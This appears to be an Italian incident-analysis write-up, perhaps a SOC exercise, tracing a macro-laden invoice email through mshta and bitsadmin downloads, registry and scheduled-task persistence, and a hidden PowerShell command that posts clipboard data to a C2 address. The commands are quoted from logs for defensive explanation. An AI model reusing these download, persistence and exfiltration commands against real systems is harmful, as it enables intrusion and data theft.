


Email & Proxy log



Endpoint/Host logs




# 


```
Email Delivery
 └── 08:16:41 MAILGW01 → Email da billing@invoices-cloud[.]com (Invoice_0822.docm in allegato)
 └── 08:17:03 MAILGW01 amavis → Segnalata come CLEAN, consegnata alla mailbox
 └── 09:01:26 O365 → Outlook sincronizza il messaggio su WIN10-LAPTOP
```

08:16:41...il server di posta MAILGW01 riceve un’email proveniente da billing@invoices-cloud[.]com, con oggetto Invoice_0822.docm. L’allegato è un documento Word con macro abilitate, tipicamente usato dagli attaccanti per introdurre codice malevolo. L’email è indirizzata all’utente a.wilson@corp.local.

08:17:03, l’email passa attraverso il filtro amavis, che controlla spam e malware. Il messaggio però viene marcato come CLEAN e inoltrato normalmente alla casella dell’utente. Questo è il primo punto debole.. il sistema di sicurezza non riconosce il rischio e consente la consegna dell’allegato.

09:01:26, il servizio O365 sincronizza la posta con il computer dell’utente WIN10-LAPTOP, scaricando il messaggio e rendendolo disponibile localmente. In questo momento l’allegato è presente sul PC, ma non è stato ancora aperto. L’attacco resta quindi in fase dormiente, in attesa dell’interazione dell’utente.
Parallelamente, i log del proxy mostrano traffico normale e anche una richiesta sospetta verso doc-viewer.cdncloud[.]net, collegata alla stessa campagna. Questo indica che l’infrastruttura esterna del nemico è già attiva e pronta.

#


```

Esecuzione Allegato
 └── 09:13:01 WINWORD.EXE apre Invoice_0822.docm
     └── 09:13:07 wscript.exe esegue ~DF3A.vbs (macro payload)
         └── 09:14:59 mshta.exe scarica / cache ViewerControl.cab
             └── 09:15:04 ViewerControl.tmp creato su disco
             └── 09:15:06 rundll32 prova ad eseguire DLL export (fallisce, nessun entry point)
```


09:13:01, l’utente a.wilson apre l’allegato ricevuto tramite Outlook. Viene avviato WINWORD.EXE con comando WINWORD.EXE `C:\Users\a.wilson\Downloads\Invoice_0822.docm`. Questo processo ha PID 3560, generato da explorer.exe (PID 2824). Fin qui sembra un’azione normale di lavoro.
Pochi secondi dopo, alle 09:13:07, Word esegue una macro contenuta nel documento, che lancia wscript.exe con comando wscript.exe //B //E:vbscript `C:\Users\a.wilson\AppData\Local\Temp\~DF3A.vbs`. Il processo, con PID 3572, mostra che la macro ha creato ed eseguito uno script VBScript. È già un chiaro segnale di attività sospetta, visto che Word non dovrebbe avviare script.

09:14:59, lo script genera un altro processo... `mshta.exe`, un tool legittimo di Windows usato per eseguire applicazioni HTML. Il comando è 
`mshta http://cdn-docs[.]io/cab/ViewerControl[.]cab#main`
 Questo processo, con PID 3611, scarica un componente malevolo dalla rete. L’uso di mshta è tipico di attacchi fileless.
Pochi secondi dopo, alle 09:15:04, il sistema registra la creazione del file 
`C:\ProgramData\ViewerControl[.]tmp (hash SHA256=7B1F5D2…)`. È il payload scaricato.

Infine,09:15:06, il processo `rundll32.exe `(PID 3620) tenta di eseguire il file appena salvato con` rundll32 C:\ProgramData\ViewerControl[.]tmp,Export`. L’operazione però fallisce con errore STATUS_DLL_NOT_FOUND, perché il file non è un vero DLL.

#


```
[Fase di Download]
 └── 10:03:05 bitsadmin.exe scarica zoom_update.exe da media-storage[.]cc
     └── 10:03:33 zoom_update.exe salvato in Downloads
     └── 10:04:01 zoom_update.exe eseguito (/quiet)
```


10:03:05, sul computer di a.wilson parte il processo `bitsadmin.exe` (PID 5012), uno strumento legittimo di Windows usato per trasferimenti in background. 
`bitsadmin /transfer u /download /priority NORMAL http://media-storage.cc/update/zoom_update.exe C:\Users\a.wilson\Downloads\zoom_update.exe`
...mostra che l’attaccante sfrutta bitsadmin per scaricare un file eseguibile esterno, chiamato `zoom_update.exe`, dal dominio malevolo media-storage[.]cc. Il processo viene lanciato da svchost.exe (PID 980), segno che l’attività è mascherata come legittima.

10:03:33, Sysmon registra la creazione del file `C:\Users\a.wilson\Downloads\zoom_update.exe`. L’hash SHA256 associato è E4C1A9F…(non si vede tutto l’hash dal log), confermando che si tratta di un nuovo binario scritto sul disco. Il fatto che sia salvato nella cartella Downloads aumenta il rischio che l’utente non lo noti immediatamente, ma che venga eseguito in seguito.
Infatti, 

pochi secondi dopo, alle 10:04:01, l’utente (o uno script) avvia il file con ilcmd:
`C:\Users\a.wilson\Downloads\zoom_update.exe /quiet`
Il nuovo processo ha PID 5050 e viene lanciato da explorer.exe (PID 2824). Il parametro /quiet indica che l’esecuzione avviene senza finestra o notifiche visibili, comportamento tipico dei malware che vogliono rimanere nascosti.
Questa fase conclude con successo il download e l’esecuzione del payload malevolo, aprendo la strada alla persistenza e al collegamento con i server di comando e controllo.

#


```
[Installazione Persistenza]
 └── 10:04:04 Registry Run key → ZoomHelper (zh.exe)
 └── 10:04:29 TaskScheduler task "\User\ZoomHelperUpdate" creato
     └── 10:05:01 zh.exe lanciato tramite scheduled task
```
10:04:04, subito dopo l’esecuzione di `zoom_update.exe `(PID 5050), viene creato un nuovo valore di registro in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` chiamato `ZoomHelper`. Questo valore punta a 
`C:\Users\a.wilson\AppData\Roaming\ZoomHelper\zh.exe`. In questo modo, ad ogni avvio del sistema, il programma malevolo partirà automaticamente.

Alle 10:04:09, Sysmon registra che lo stesso eseguibile tenta una connessione in uscita verso `203.0.113.50:443`. È il primo contatto con l’infrastruttura di comando e controllo, ma il processo resta sotto il PID 5050.
Pochi secondi dopo, alle 10:04:13, viene scritto sul disco il file zh.exe in `C:\Users\a.wilson\AppData\Roaming\ZoomHelper\`.  è la vera backdoor usata dall’attaccante.

10:04:29, i log mostrano che il malware registra un’attività nel Task Scheduler, con il nome \User\ZoomHelperUpdate. L’autore risulta a.wilson, e l’azione è lanciare zh.exe -update. Ciò garantisce che anche se l’utente cancella il valore Run nel registro, l’attività pianificata farà ripartire l’infezione.
Infine, alle 10:05:01, il task viene eseguito, generando un nuovo processo con PID 5121, che lancia direttamente zh.exe.

#


```
[C2 & Data Exfiltration ]
 └── 10:07:44 zh.exe genera powershell.exe → POST clipboard data → 203.0.113.50/api/p
 └── 10:12:37 Registry Load key → zh.exe aggiunto (seconda persistenza)
 └── 10:17:19 zh.exe invia DNS beacon → 198.51.100.44:53
```

Alle 10:07:44, il processo zh.exe (PID 5121, avviato dal task pianificato) genera un nuovo sottoprocesso powershell.exe (PID 5184). 
`powershell -nop -w hidden -c Invoke-RestMethod https://203.0.113.50/api/p -Method POST -Body (Get-Clipboard)`
Questo significa che il malware raccoglie i dati copiati negli appunti dell’utente e li invia al server remoto 203.0.113.50 tramite protocollo HTTPS. L’uso di PowerShell con parametri -nop e -w hidden è tipico di esecuzioni stealth, senza mostrare finestre visibili.

Alle 10:12:03, lo stesso zh.exe (PID 5121) crea un nuovo processo cmd.exe (PID 5242) con ...
`schtasks /create /sc minute /mo 30 /tn \System\ZhSvc /tr C:\Users\a.wilson\AppData\Roaming\ZoomHelper\zh.exe /ru SYSTEM`
L’operazione riesce, creando un nuovo meccanismo di persistenza a livello SYSTEM, anche se l’utente normale venisse rimosso.
Poi  zh.exe scrive un ulteriore valore di registro in `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load`, che punta di nuovo a zh.exe. Questo rappresenta il secondo layer di persistenza.

Infine, alle 10:17:19, zh.exe stabilisce un canale di comunicazione alternativo tramite DNS beacon, connesso all’IP 198.51.100.44:53 usando protocollo UDP. Questo permette all’attaccante di mantenere il controllo anche se le connessioni HTTPS fossero bloccate.

poi a.wilson si è disconnesso da WIN10-LAPTOP per inattività (IdleTimeout).
Questo segna la fine della sessione, ma il malware zh.exe rimane persistente nel sistema.


